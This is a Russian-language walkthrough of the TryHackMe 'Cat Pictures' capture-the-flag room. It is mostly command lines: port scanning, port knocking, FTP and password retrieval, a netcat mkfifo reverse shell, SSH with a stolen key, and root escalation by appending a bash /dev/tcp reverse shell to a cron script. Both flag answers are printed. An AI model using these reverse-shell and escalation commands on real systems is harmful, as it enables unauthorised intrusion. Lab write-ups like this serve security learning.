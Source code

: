 

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Cat Pictures](https://tryhackme.com/r/room/catpictures) 

Всего 2 задания:
## Задание 1
Нажмите зеленую кнопку развертывания и атакуйте MACHINE_IP!

ПРИМЕЧАНИЕ: запуск и настройка занимают некоторое время... некоторые службы запускаются и открывают порты медленно, 
поэтому наберитесь терпения. 

### Ответьте на вопросы ниже
Разверните меня!
```commandline
Ответ не нужен
```

## Задание 2
Отдайте мне все флаги!!!
### Ответьте на вопросы ниже
Флаг 1
```commandline
nmap -sC -sV -p- <IP>
gobuster dir -u http://<IP>:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
for i in 1111 2222 3333 4444;do nmap -Pn -p $i --host-timeout 201 --max-retries 0 <IP>; done
ftp <IP>
ls
get note.txt
cat note.txt
password:sardinethecat
nc <IP> 4420
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <my-own-ip> <4444> >/tmp/f
nc -lvp 4444
ls
./runme
password: rebecca
cd /home/catlover/
ls -la
chmod 600 cat_rsa
ssh -i cat_rsa catlover@<IP>
id
ls -la
cat /root/flag.txt
```
```commandline
7cf90a0e7c5d25f1a827d3efe6fe4d0edd63cca9
```
Корневой флаг
```commandline
cat /opt/claen/clean.sh
echo 'bash -i >& /dev/tcp/<my_own_IP>/4422 0>&1' >> clean.sh
nc -lvp 4422
```
```commandline
4a98e43d78bab283938a06f38d2ca3a3c53f0476
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)